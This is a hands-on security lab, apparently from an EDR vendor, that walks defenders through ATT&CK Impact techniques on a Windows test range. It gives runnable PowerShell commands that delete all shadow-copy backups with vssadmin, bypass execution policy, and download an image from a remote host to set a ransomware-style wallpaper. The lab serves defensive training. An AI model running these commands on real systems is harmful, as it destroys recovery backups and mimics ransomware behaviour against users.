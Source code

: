 ```yaml
---
title: ATT&CK - Impact Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 04/14/2025
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- LibreOffice
- Gimp
external:
- attack.mitre.org
- rightofboom.infocyte.com
- infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

The Impact phase of an attack consists of techniques that adversaries use to disrupt availability or compromise integrity by manipulating business and operational processes. Techniques used for impact can include destroying or tampering with data. 

In order for a ransom to be effective, skilled attackers often wait till they have total control of a network and pre-stage their ransomware on every system so that it can be initiated all at once on every system with security tooling and backup software disabled.


## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs 
-->
1. Understand the Impact phase of an attack
2. Demonstrate some system changes common during this phase
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

### 1. Inhibit System Recovery
> *Ransomware's purpose is to restrict access to data by encrypting it till the victim pays the ransom. Inhibiting the ability to restore from backup is essential to making sure the attacker achieves this objective.*
>
> *The method we'll demonstrate today is common in all ransomware attacks: deleting the shadowcopy backups.  The shadowcopy, when enabled, stores copies of any files modified and is the basis for some ransomware rollback software.*

Delete the shadow copy backups to perform **Inhibit System Recovery** technique
- MITRE ATT&CK Technique: [ATT&CK T1490 - Impact - Inhibit System Recovery](https://attack.mitre.org/techniques/T1490)
- Copy and paste this command into the terminal:
	```PowerShell
	# Shadow Copy Deletion
	Write-Host -ForegroundColor Cyan "Initiating technique T1490 - Inhibit System Recovery"
	vssadmin.exe delete shadows /All /quiet 2>&1
	```

### 2. Wallpaper Defacement
> *An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users, thus discrediting the integrity of the systems. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper. In ransomware, the wallpaper will be changed to give the user instructions and make their demands*

Execute a **Wallpaper Defacement** by changing the background to a ransomware message. 
- MITRE ATT&CK Technique: [ATT&CK T1491 - Impact - Defacement: Internal Defacement](https://attack.mitre.org/techniques/T1491)
- Copy and paste this command into the terminal:
```PowerShell
(Get-ItemProperty 'HKCU:\Control Panel\Desktop').WallPaper | Set-Content "$env:TEMP\original_wallpaper.txt"

powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -Command {
    Write-Host -ForegroundColor Cyan "Initiating technique T1491 - Defacement: Internal Defacement";
    Start-Sleep -Seconds 2;

    $wallpaperURL = "https://infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg";
    $wallpaperPath = "$env:temp\wallpaper.jpg";

    Invoke-WebRequest $wallpaperURL -OutFile $wallpaperPath;
    Start-Sleep -Milliseconds 1000;

    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name WallpaperStyle -Value 10;
    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name TileWallpaper -Value 0;

    Add-Type -TypeDefinition @'
        using System;
        using System.Runtime.InteropServices;
        public class Params {
            [DllImport("user32.dll", CharSet = CharSet.Unicode)]
            public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
        }
'@;

    $UpdateIniFile = 0x01;
    $SendChangeEvent = 0x02;
    $fWinIni = $UpdateIniFile -bor $SendChangeEvent;

    [Params]::SystemParametersInfo(0x0014, 0, $wallpaperPath, $fWinIni);
}
```
- [Optional] Restore:
```Powershell
powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -Command {
    $oldPath = Get-Content "$env:TEMP\original_wallpaper.txt"
    Write-Host -ForegroundColor Cyan "Restoring original wallpaper...";
    Start-Sleep -Seconds 2;

    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name WallpaperStyle -Value 10;
    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name TileWallpaper -Value 0;

    Add-Type -TypeDefinition @'
        using System;
        using System.Runtime.InteropServices;
        public class Params {
            [DllImport("user32.dll", CharSet = CharSet.Unicode)]
            public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
        }
'@;

    $UpdateIniFile = 0x01;
    $SendChangeEvent = 0x02;
    $fWinIni = $UpdateIniFile -bor $SendChangeEvent;

    [Params]::SystemParametersInfo(0x0014, 0, $oldPath, $fWinIni);
    Write-Host -ForegroundColor Green "Wallpaper restored to: $oldPath";
}
```